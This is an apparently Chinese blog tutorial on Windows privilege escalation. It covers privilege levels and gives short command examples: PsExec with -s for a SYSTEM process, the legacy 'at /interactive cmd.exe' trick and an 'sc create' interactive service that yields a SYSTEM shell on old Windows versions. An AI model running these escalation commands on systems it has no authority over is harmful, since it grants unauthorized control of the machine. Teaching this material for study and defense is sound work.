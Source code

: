 # 原创
：  （59.2）【Windows提权】权限等级、PSTools提权、at命令提权、sc命令提权

# （59.2）【Windows提权】权限等级、PSTools提权、at命令提权、sc命令提权

**目录**

[一、权限分配](#%E4%B8%80%E3%80%81%E6%9D%83%E9%99%90%E5%88%86%E9%85%8D)

[1.1、Windows：](#1.1%E3%80%81Windows%EF%BC%9A)

[1.2、Linux](#1.2%E3%80%81Linux)

[二、PSTools提权](#%E4%BA%8C%E3%80%81PSTools%E6%8F%90%E6%9D%83)

[2.1、简介：](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A)

[2.2、微软官网：](#2.2%E3%80%81%E5%BE%AE%E8%BD%AF%E5%AE%98%E7%BD%91%EF%BC%9A)

[2.3、PsExec提权：](#2.3%E3%80%81PsExec%E6%8F%90%E6%9D%83%EF%BC%9A)

[三、at命令提权](#%E4%B8%89%E3%80%81at%E5%91%BD%E4%BB%A4%E6%8F%90%E6%9D%83)

[3.1、原理：](#3.1%E3%80%81%E5%8E%9F%E7%90%86%EF%BC%9A)

[3.2、适用版本：](#3.2%E3%80%81%E9%80%82%E7%94%A8%E7%89%88%E6%9C%AC%EF%BC%9A)

[3.3、利用过程：](#3.3%E3%80%81%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B%EF%BC%9A)

[四、sc命令提权](#%E5%9B%9B%E3%80%81sc%E5%91%BD%E4%BB%A4%E6%8F%90%E6%9D%83)

[4.1、原理：](#4.1%E3%80%81%E5%8E%9F%E7%90%86%EF%BC%9A)

[4.2、适用版本：](#4.2%E3%80%81%E9%80%82%E7%94%A8%E7%89%88%E6%9C%AC%EF%BC%9A)

[4.3、利用过程：](#4.3%E3%80%81%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B%EF%BC%9A)

---


## 一、权限分配

> 
<h3>1.1、Windows：</h3>
User
Administrator
System
<hr/>
<h3>**1.2、Linux **</h3>
User
Root


### **1.2、Linux **

---


---


## 二、PSTools提权

> 
<h3>2.1、简介：</h3>



> 
<h3>2.2、微软官网：</h3>
[PsTools - Windows Sysinternals | Microsoft Docs<img alt="" src="https://csdnimg.cn/release/blog_editor_html/release2.1.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M4AD"/>https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools](https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools)



> 
<h3>2.3、PsExec提权：</h3>
psexec.exe -accepteula -s -i -d notepad.exe


---


---


## 三、at命令提权 

> 
<h3>3.1、原理：</h3>
at命令是一个计划命令，通过调用的是system权限，可以在规定时间完成一些操作


> 
<h3>3.2、适用版本：</h3>
都是古董了
Win2000 、 Win2003 、 XP（Win7以后没了）


> 
<h3>3.3、利用过程：</h3>
获得一个低权限的用户-----&gt;通过3389端口远程连接-----&gt;使用at命令本地提权
#指定时间在5:20，生成一个交互式的System权限的cmd
#如果设定时间过时，将于次日执行
at 5:20 /interactive cmd.exe
（下图是win2003）


出现弹窗
（我利用win7的时候，是拒绝访问的）




---


---


## 四、sc命令提权

> 
<h3>4.1、原理：</h3>
SC 是用于与服务控制管理器和服务进行通信的命令行程序
提供的功能类似于“控制面板”中“管理工具”项中的“服务”


> 
<h3>4.2、适用版本：</h3>
windows 7、8
Windows 2003、2007、2008、2012、2016


> 
<h3>4.3、利用过程：</h3>
# 创建一个名叫syscmd的新的交互式的cmd服务<br/> sc Create syscmd binPath= "cmd /K start" type= own type= interact<br/> # 运行服务，获得system权限的cmd环境<br/> sc start syscmd  
（下图是win2003）

 （win7也是拒绝访问的）




